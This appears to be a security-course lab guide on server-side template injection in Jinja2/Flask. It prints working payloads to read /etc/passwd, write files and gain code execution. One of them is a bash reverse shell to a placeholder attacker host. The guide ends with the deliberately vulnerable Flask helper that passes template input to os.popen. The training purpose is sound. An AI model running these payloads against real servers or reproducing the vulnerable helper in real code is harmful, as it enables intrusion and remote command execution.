 # Server side template injection

#### What is it in a nutshell?

This is the course guide for server-side template injection.

Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

Follow the full source to find how to discover this vulnerability and how to determine the templating engine
that is being used by the application.

[full source here](https://portswigger.net/blog/server-side-template-injection)

#### Semi spoiler!

Included [here](https://github.com/RiieCco/owasp-bay-area/tree/master/course-guide/server-side-template-injection/report.html) is the scan report of a Burp intruder scan on the target. Use this scan report to pinpoint the exact location of the vulnerability.


#### This works for python 2

Jinja2 - Read remote file
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

Jinja2 - Write into remote file
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
Jinja2 - Remote Code Execution via reverse shell
Listen for connexion
```
nv -lnvp 8000
```

Inject this template
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

#### However we use python3 

In this scenario we use python3 to leverage the attack so the method as mentioned above is no longer
valid. We need to find other ways for exploitation. Even without nice methods to iterate the subclasses 
as with python3 we can still get a lot of interesting information about the system.

try to inject:

```
{{ config.items() }}
```

#### Spoiler - exploitation of the target.

The developer of this application thought it was a good idea to have a generic function for his
monitoring and make this function callable by the templating engine, this way he could easilly utilize 
system commands on a easy and secure way (or so he thought) to monitor the system.

We can now abuse the template expression to invoke this command with our own 
system command injection like

```
http://0.0.0.0:8081/{{system_call('netcat listener pwn')}}
```

Here follows the code that is responsible for the vulnerability:

```
@app.context_processor
def utility_processor():
    def system_call(command):
        output = os.popen(command).read()
        return output
    return dict(system_call=system_call)
```